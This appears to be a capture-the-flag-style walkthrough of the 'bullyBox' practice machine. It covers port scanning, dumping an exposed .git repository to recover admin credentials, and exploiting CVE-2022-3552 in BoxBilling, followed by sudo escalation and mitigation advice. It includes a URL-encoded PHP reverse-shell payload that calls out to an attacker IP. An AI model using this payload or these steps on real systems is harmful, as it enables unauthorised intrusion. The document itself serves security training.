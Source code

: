 ```yaml
---
title: bullyBox
date: 2025-05-04
categories: [oscp, pg-practice]
tags: [oscp-preparation, walkthrough, CVE-2022-3552, git-dumper] 
image: bullybox.jpg
media_subpath: /assets/img/posts/2025-05-04-bullybox/
---
```


## Introduction

In this walkthrough, I exploited a PG Practice machine running BoxBilling CMS. Upon scanning the target, I identified ports **22** (SSH) and **80** (HTTP) as open. After resolving the domain `bullybox.local` by adding it to my `/etc/hosts` file, I navigated to the web interface and discovered that the site was running **BoxBilling CMS version 4.22.1.5**, which I confirmed by inspecting the page source.

To gain administrative access, I conducted a `gobuster` directory scan and discovered an exposed **.git** directory. Using `git-dumper`, I cloned the repository locally and analyzed its contents. Within the dumped files, I found credentials for an admin account. Using these credentials, I logged into the admin panel and exploited a known vulnerability — **CVE-2022-3552** — to gain a foothold on the system.

After obtaining initial shell access, I enumerated further and discovered that the current user had unrestricted **sudo** privileges. By running `sudo su`, I escalated my privileges and obtained a root shell.

## Nmap

### TCP

Run a quick Nmap TCP scan:

```bash
sudo nmap -sV $IP --open
```

![image.png](image.png)

### UDP

Check top 100 UDP ports:

```bash
sudo nmap -sU -F $IP
```

![image.png](image%201.png)

### Full Port Scan

```bash
sudo nmap -sV -sC -p- $IP -Pn -n -v --open
```

## Services

### Port 22

We usually skip SSH.

## Web

### Port 80

- Version - Apache httpd 2.4.52
    
    ```bash
    searchsploit Apache 2.4.52
    ```
    
    The following exploits are added to the Loot for worst case:
    
    - [ ]  [Apache HTTP Server 2.4.50 - Path Traversal & RCE](https://www.google.com/url?sa=t&source=web&rct=j&opi=89978449&url=https://www.exploit-db.com/exploits/50406&ved=2ahUKEwis2Mniv4mNAxXwhP0HHY7GDocQFnoECCAQAQ&usg=AOvVaw15cTzSV3jopMdoKTrxLuxE)
    - [ ]  [Apache 2.4.x - Buffer Overflow](https://www.google.com/url?sa=t&source=web&rct=j&opi=89978449&url=https://www.exploit-db.com/exploits/51193&ved=2ahUKEwis2Mniv4mNAxXwhP0HHY7GDocQFnoECBEQAQ&usg=AOvVaw32CfKKhtdF8vCQmFaTpO_s)

- We navigating to the site it fails to find `bullybox.local` add that to `/etc/hosts` file.
- **robots.txt and sitemap.xml**
    
    ![image.png](image%202.png)
    
    When navigating to uploads I noticed admin user email:
    
    `admin@bullybox.local`
    

We see that Boxbilling version of `4.22.1.5`:

![image.png](image%203.png)

Searching for public exploits we can find one:
[BoxBilling<=4.22.1.5 - Remote Code Execution (RCE)](https://www.google.com/url?sa=t&source=web&rct=j&opi=89978449&url=https://www.exploit-db.com/exploits/51108&ved=2ahUKEwjcz67twImNAxXl_rsIHeukHjEQFnoECBkQAQ&usg=AOvVaw2pVMqgdik2CPa2VhCDdofl)

I registered as `kh4n@gmail.com : password123` and tried running the exploit. But it mentions that we need to be admin. I noticed from Gobuster scan that our server acting as non-bare git repo that and contains `.git` directory. We can use `git-dumper` and dump that repo locally.

[git-dumper](https://notes.benheater.com/books/web/page/git-dumper)

![image.png](image%204.png)

In Python virtual environment install `git-dumper`:

```bash
mkdir venv
cd venv
python3 -m venv .venv
source .venv/bin/activate
pipx install git-dumper
```

Then run:

```bash
git-dumper http://bullybox.local/.git git_loot
```

Reading `bb-config.php` file we can see admin user and their password:

![image.png](image%205.png)

## Loot

- [ ]  [Apache HTTP Server 2.4.50 - Path Traversal & RCE](https://www.google.com/url?sa=t&source=web&rct=j&opi=89978449&url=https://www.exploit-db.com/exploits/50406&ved=2ahUKEwis2Mniv4mNAxXwhP0HHY7GDocQFnoECCAQAQ&usg=AOvVaw15cTzSV3jopMdoKTrxLuxE)
- [ ]  [Apache 2.4.x - Buffer Overflow](https://www.google.com/url?sa=t&source=web&rct=j&opi=89978449&url=https://www.exploit-db.com/exploits/51193&ved=2ahUKEwis2Mniv4mNAxXwhP0HHY7GDocQFnoECBEQAQ&usg=AOvVaw32CfKKhtdF8vCQmFaTpO_s)

## Credentials

```bash
admin@bullybox.local : Playing-Unstylish7-Provided
```

I used this [POC](https://github.com/0xk4b1r/CVE-2022-3552/tree/main) but couldn’t get a reverse shell.

```bash
python3 CVE-2022-3552.py  -d http://192.168.164.27 -u admin@bullybox.local -p Playing-Unstylish7-Provided
```

I saw that person in ExploitDB page URL encoded phpinfo, that’s why I URL-encoded reverse shell in POC.

```php
<%3fphp+exec("/bin/bash+-c+'bash+-i+>%26+/dev/tcp/192.168.45.155/80+0>%261'")%3b%3f>
```

![image.png](image%206.png)

But this didn’t work either. So I changed to original ExploitDB POC.

I intercepted request then changed its request method in Burp and make it similar to the one provided in POC.

 Right in Burp Suite I URL-encoded the shell using **CTRL+U**.

![image.png](image%207.png)

And then accessed it from browser:

![image.png](image%208.png)

Now I got a shell.

![image.png](image%209.png)

## Privilege Escalation

Right with `id` command we can see that we are in `sudo` group.

![image.png](image%2010.png)

Ridiculously we can execute any command without a password as root:

```bash
sudo -l
```

![image.png](image%2011.png)

```bash
sudo su
```

![image.png](image%2012.png)

Now we are root!

## Mitigation

- **Restrict access to sensitive directories** like `.git` on production web servers using `.htaccess` or web server configuration.
- **Update BoxBilling CMS** to the latest patched version to avoid known vulnerabilities such as CVE-2022-3552.
- **Use strong, unique credentials** and avoid hardcoding them in repositories.
- **Implement proper sudo policy**: Restrict `sudo` access and use role-based access controls to limit privilege escalation opportunities.
- **Perform regular security audits** and code reviews to catch exposed secrets and configuration flaws before deployment.

